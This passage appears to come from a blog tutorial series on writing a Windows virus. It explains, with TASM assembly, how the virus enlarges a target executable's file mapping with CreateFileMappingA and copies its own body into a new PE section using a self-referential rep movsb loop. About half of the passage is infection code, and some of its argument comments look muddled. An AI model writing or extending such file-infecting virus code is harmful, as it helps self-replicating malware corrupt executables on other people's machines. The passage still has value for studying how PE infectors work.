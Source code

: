 # Writing the virus code into the new section

The last trick I needed to perform is to expand the target's overall file size. The new section metadata that gets added is inside of existing slack space between the end of the `IMAGE_NT_HEADERS` structure and the beginning of the first section and didn't require changing the file size. The new section content will be added at the end of the file and so I had to enlarge the overall executable to make room after the last section's contents.

Increasing the file size turns out to be pretty easy and only required remapping the file using `CreateFileMappingA` and `MapViewOfFile` again, adjusting the arguments to account for the new space. Because I'm modifying a PE file on disk I need to adjust by the new section's `SizeOfRawData` not the original unpadded size or the `VirtualSize`.

```tasm {linenos=table}
; inputs:   `targetFileSize`   -> the original .exe size on disk (lower bound)
;           `injectSize`       -> the size of the new virus section's raw data
;           `targetFileHandle` -> handle to the target .exe file
;
; outputs:  `targetMapHandle`  -> an updated memory map handle for the target 
;                                 .exe file updated to the new size.
;
; Calculate the new size we should map. This is the old file size + 
; the size of the new section on-disk
mov eax, [targetFileSize]
mov ecx, [injectSize]
add eax, ecx
mov ebx, [targetFileHandle]

; Memory map the target PE file again with this new size
call CreateFileMappingA, \
       ebx,\                 ; file handle
       0h,\                  ; sec attributes (not used for win95)
       PAGE_READWRITE,\      ; r/w attributes
       0h,\                  ; flProtect (??)
       eax,\                 ; high size (adjusted filesize)
       0h                    ; low size
cmp eax, 0h
je error
; Save a handle to the new memory map
mov [targetMapHandle], eax
```

After the enlarged view of the file is mapped it was just a matter of copying the generation 0 code that is currently executing from memory into the new section. For this I used a fun bit of self-referential code that relies on the `viral_payload` label and the new `SizeOfRawData` to know where to begin copying from and how many bytes to copy.

```tasm {linenos=table}
; inputs:   `injectStart`   -> the start of the new virus section's raw data
;           `injectSize`    -> the size of the new virus section's raw data
;           `eax`           -> the `targetP` pointer to the start of the .exe 
;                              memory map
;
; Time to write the new section content with our own code
@@startcopyviruscode:
  ; Destination: the start of our section in targetP
  mov edi, eax
  add edi, [injectStart]
  ; Source: the beginning of the virus code
  mov esi, offset viral_payload
  ; Number of bytes to copy: size of the injected section
  mov ecx, [injectSize]
; Copy the virus code into place
@@copyviruscode:
  rep movsb
```

[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/